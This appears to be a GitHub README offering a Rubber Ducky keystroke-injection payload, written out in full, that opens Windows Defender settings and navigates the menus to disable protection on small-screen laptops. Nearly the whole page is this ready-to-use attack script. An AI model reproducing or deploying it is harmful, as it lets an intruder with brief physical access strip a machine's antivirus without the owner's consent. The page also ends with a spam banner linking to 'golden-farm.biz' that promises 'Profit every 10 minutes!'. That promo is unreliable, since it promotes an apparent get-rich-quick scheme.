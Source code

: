 # Rubber-Ducky-Script-Disable-Windows-Defender-on-Eee-Pc

A simple Script for Rubber Ducky to disable windows defender on small screen laptops


Payload:


DELAY 1000
<br>
CONTROL ESCAPE
<br>
DELAY 1000
<br>
STRING windows defender settings
<br>
DELAY 1000
<br>
ENTER
<br>
REM here start the windows defender menù
<br>
DELAY 1000
<br>
TAB
<br>
DELAY 1000
<br>
DOWNARROW
<br>
DELAY 1000
<br>
TAB
<br>
DELAY 1000
<br>
DOWNARROW
<br>
DELAY 1000
<br>
TAB
<br>
DELAY 1000
<br>
TAB
<br>
DELAY 1000
<br>
DOWNARROW
<br>
REM close the menu
<br>
DELAY 1000
<br>
ALT F4




</BR>

<a href="https://golden-farm.biz/?r=1673249" target="_blank">
<img src="https://golden-farm.biz/images/promo/en/728x90.gif"
alt="Profit every 10 minutes!"></a>



